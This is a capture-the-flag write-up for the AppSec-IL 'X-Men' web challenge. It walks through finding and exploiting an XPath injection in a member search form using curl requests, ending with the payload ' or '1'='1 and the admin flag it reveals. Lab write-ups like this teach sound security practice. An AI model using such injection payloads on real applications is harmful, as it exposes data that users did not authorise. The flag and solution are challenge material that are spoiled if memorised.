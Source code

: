 
# X-Men

 * Category: Web
 * Solved by the JCTF Team

## Description

> Welcome to Xavier's School for Gifted Youngsters! The X-Men Academy has launched a new member portal where students can search for other academy members.
> Storm has reported suspicious behavior with the search functionality, and Professor Xavier suspects there might be security vulnerabilities.
> Your mission: Find a way to access information that shouldn't be publicly available. Some academy members have special privileges and access to classified data.
> 
> Can you uncover the academy's secrets?

## Solution

The attached website contained a form to search for members according to their username:

```html
<form method="POST" class="mb-3">
    <div class="input-group">
        <input type="text" class="form-control" name="search" placeholder="Search members by username..." value="">
        <button type="submit" class="btn btn-primary">Search XML Database</button>
    </div>
</form>
<table class="table table-striped">
    <thead>
        <tr><th>Username</th><th>Role</th><th>Secret</th></tr>
    </thead>
    <tbody> 
        <tr><td>cyclops</td><td>field_leader</td><td>Leading the X-Men is tough!</td></tr>
        <tr><td>storm</td><td>weather_controller</td><td>I command the skies!</td></tr>
        <tr><td>wolverine</td><td>berserker</td><td>Healing factor saves me every time.</td></tr>
        <tr><td>jean</td><td>telepath</td><td>The Phoenix is within me.</td></tr>
    </tbody>
</table>
```

Searching for "admin" returns "Not Authorized".

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/xmen]
└─$ curl 'https://x-men.appsecil.ctf.today/profile' \
  -X POST -s -L \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: session=eyJ1c2VybmFtZSI6InRlc3QifQ.aD3K3A.W0E6jc88uokOguEp6Snm2luJp28' \
  --data-raw 'search=admin' | grep alert
                            <div class="alert alert-danger">Not Authorized</div>
```

From the form submit button, we know the database is stored in XML. 
We can also search for special characters to try and trigger an error:

```
┌──(user@kali3)-[/media/sf_CTFs/appsec/xmen]
└─$ curl 'https://x-men.appsecil.ctf.today/profile' \
  -X POST -s -L \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: session=eyJ1c2VybmFtZSI6InRlc3QifQ.aD3K3A.W0E6jc88uokOguEp6Snm2luJp28' \
  --data-raw "search=%27" | grep alert
                            <div class="alert alert-danger">XPath query failed: Invalid predicate</div>
```

Indeed, we can see that XPath is used under the hood. It's likely the backend is doing something like:

```
//user[name/text()='QUERY']
```

If the input is directly inserted into this XPath query without proper escaping, 
we can manipulate the structure. We can try using a query such as `' or '1'='1`, which will
turn the full query to:

```
//user[name/text()='' or '1'='1']
```

This should return all users. Let's try it:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/xmen]
└─$ curl 'https://x-men.appsecil.ctf.today/profile' \
  -X POST -s -L \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: session=eyJ1c2VybmFtZSI6InRlc3QifQ.aD3K3A.W0E6jc88uokOguEp6Snm2luJp28' \
  --data-raw "search=%27+or+%271%27%3D%271" | grep td
                                        <td>cyclops</td>
                                        <td>field_leader</td>
                                        <td>Leading the X-Men is tough!</td>
                                        <td>storm</td>
                                        <td>weather_controller</td>
                                        <td>I command the skies!</td>
                                        <td>wolverine</td>
                                        <td>berserker</td>
                                        <td>Healing factor saves me every time.</td>
                                        <td>jean</td>
                                        <td>telepath</td>
                                        <td>The Phoenix is within me.</td>
                                        <td>admin</td>
                                        <td>administrator</td>
                                        <td>AppSec-IL{!XPaTh_Inj3ct10n@_F0rC3}</td>
```

The flag: `AppSec-IL{!XPaTh_Inj3ct10n@_F0rC3}`